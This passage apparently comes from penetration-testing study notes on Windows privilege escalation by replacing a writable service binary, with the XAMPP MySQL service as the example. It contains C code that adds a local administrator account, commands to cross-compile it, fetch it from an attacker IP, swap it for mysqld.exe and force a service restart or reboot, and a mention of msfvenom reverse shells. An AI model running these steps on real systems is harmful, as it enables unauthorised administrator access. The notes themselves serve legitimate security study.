 An indicator `I` preceding a permission means that the permission was inherited by the parent directory.

### 3. Create malicious binary

Create a malicious binary on Kali to replace the original prone service binary.

Sample C code:
```C
#include <stdlib.h>
int main ()
{
 int i;

 i = system ("net user dave2 password123! /add");
 i = system ("net localgroup administrators dave2 /add");

 return 0;
}
```
- creates new user and adds it to local Administrators group

Cross-compile code:
`x86_64-w64-mingw32-gcc adduser.c -o adduser.exe` 
- `x86_64-w64-mingw32-gcc`: cross-compiler for 64-bit target machine
Cross compiler for x86-32: `i686-w64-mingw32-gcc -o 40564.exe 40564.c -lws2_32`

### 4. Transfer and replace with malicious binary

1. Transfer malicious binary to target machine:
   (PS) `iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe`
2. Copy original binary to home directory so that we can restore it after successful privesc:
   `move C:\xampp\mysql\bin\mysqld.exe mysqld.exe`
3. Replace original binary with malicious binary:
   `move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe`
4. Restart service (two methods):
	- `net stop mysql`
	  `net start mysql`
	- If current user does not have the permissions to stop the service, if the service *Startup Type* is set to "Automatic", may be able to restart service by rebooting machine
			1. Check startup type of service:
			   (PS) `Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}`
			2. Check if current user has the privileges to reboot (must have *SeShutDownPrivilege* assigned):
			   `whoami /priv`
				- if it is shown in the listing, then we have that privilege. "disabled" only indicates if the privilege is enabled for the current running process (`whoami`)
				- If the privilege is not assigned, then we have to wait for the victim to manually start the service
			3. Issue reboot (if condition 2 is satisfied):
			   `shutdown /r /t 0`
				- `/r`: reboot instead of shutdown
				- `/t 0`: perform action in 0 seconds
5. If reboot was required, once reboot is complete, connect again
6. Confirm if attack was successful by listing members of local Administrators group
   (PS) `Get-LocalGroupMember administrators`
7. We can use *RunAs* (see [[Enumerating Windows]]) to get interactive shell as the new user or use *msfvenom* to start an executable file, starting a reverse shell.
8. Restore original state of the service:
	1. Delete our malicious binary
	2. Restore backed up original binary
	3. Restart system
